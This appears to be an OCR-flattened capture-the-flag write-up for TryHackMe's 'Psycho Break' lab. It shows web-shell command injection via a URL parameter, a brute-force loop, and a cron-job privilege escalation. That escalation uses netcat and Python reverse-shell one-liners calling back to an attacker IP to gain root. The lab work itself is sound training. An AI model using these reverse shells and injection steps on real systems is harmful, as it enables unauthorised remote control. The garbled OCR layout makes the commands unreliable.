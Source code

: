 ```html

  <!-- To find more about the Spider Lady visit https://theevilwithin.fandom.com/wiki/Laura_(Creature) -->

  http://10.10.172.137/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls
  http://10.10.172.137/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls%20..
  680e89809965ec41e64dc7e447f175ab be8bc662d1e36575a52da40beba38275 index.php
  http://10.10.172.137/abandonedRoom/680e89809965ec41e64dc7e447f175ab/
  kali@kali:~/CTFs/tryhackme/Psycho Break$ cat you_made_it.txt You made it.
  Escaping from Laura is not easy, good job ....
  kali@kali:~/CTFs/tryhackme/Psycho Break$ unzip helpme.zip Archive: helpme.zip
  inflating: helpme.txt inflating: Table.jpg kali@kali:~/CTFs/tryhackme/Psycho
  Break$ cat helpme.txt From Joseph, Who ever sees this message "HELP Me". Ruvik
  locked me up in this cell. Get the key on the table and unlock this cell. I'll
  tell you what happened when I am out of this cell. SHOWME
  kali@kali:~/CTFs/tryhackme/Psycho Break$ cat thankyou.txt From joseph, Thank
  you so much for freeing me out of this cell. Ruvik is nor good, he told me
  that his going to kill sebastian and next would be me. You got to help
  Sebastian ... I think you might find Sebastian at the Victoriano Estate. This
  note I managed to grab from Ruvik might help you get inn to the Victoriano
  Estate. But for some reason there is my name listed on the note which I don't
  have a clue. -------------------------------------------- // \\ || (NOTE) FTP
  Details || || ================== || || || || USER : joseph || || PASSWORD :
  intotheterror445 || || || \\ // --------------------------------------------
  Good luck, Be carefull !!! kali@kali:~/CTFs/tryhackme/Psycho Break$ chmod +x
  program kali@kali:~/CTFs/tryhackme/Psycho Break$ strings random.dic >
  brute.txt kali@kali:~/CTFs/tryhackme/Psycho Break$ while read LINE; do
  ./program "$LINE"; done < brute.txt | grep Correct kidman => Correct
  kali@kali:~/CTFs/tryhackme/Psycho Break$ ./program kidman kidman => Correct
  Well Done !!! Decode This => 55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3
  444 7777 7777 666 7777 8 777 2 66 4 33 https://keypad-translator.glitch.me/ k
  i d m a n s p a s s w o r d i s s o s t r a n g e KIDMANSPASSWORDISSOSTRANGE
  kidman kidman@evilwithin:~$ cat user.txt 4C72A4EF8E6FED69C72B4D58431C4254
  kidman@evilwithin:~$ cat /etc/crontab # /etc/crontab: system-wide crontab #
  Unlike any other crontab you don't have to run the `crontab' # command to
  install the new version when you edit this file # and files in /etc/cron.d.
  These files also have username fields, # that none of the other crontabs do.
  SHELL=/bin/sh
  PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin # m h dom
  mon dow user command 17 * * * * root cd / && run-parts --report
  /etc/cron.hourly 25 6 * * * root test -x /usr/sbin/anacron || ( cd / &&
  run-parts --report /etc/cron.daily ) 47 6 * * 7 root test -x /usr/sbin/anacron
  || ( cd / && run-parts --report /etc/cron.weekly ) 52 6 1 * * root test -x
  /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly ) */2 * *
  * * root python3 /var/.the_eye_of_ruvik.py rm /tmp/f;mkfifo /tmp/f;cat
  /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9001 >/tmp/f import
  socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",9001));os.dup2(s.fileno(),0);
  os.dup2(s.fileno(),1);
  os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
  kali@kali:~/CTFs/tryhackme/Psycho Break$ nc -lnvp 9001 Listening on 0.0.0.0
  9001 Connection received on 10.10.172.137 57536 bash: cannot set terminal
  process group (1763): Inappropriate ioctl for device bash: no job control in
  this shell root@evilwithin:~# cat /root/root.txt cat /root/root.txt
  BA33BDF5B8A3BFC431322F7D13F3361E root@evilwithin:~#
</p>
```
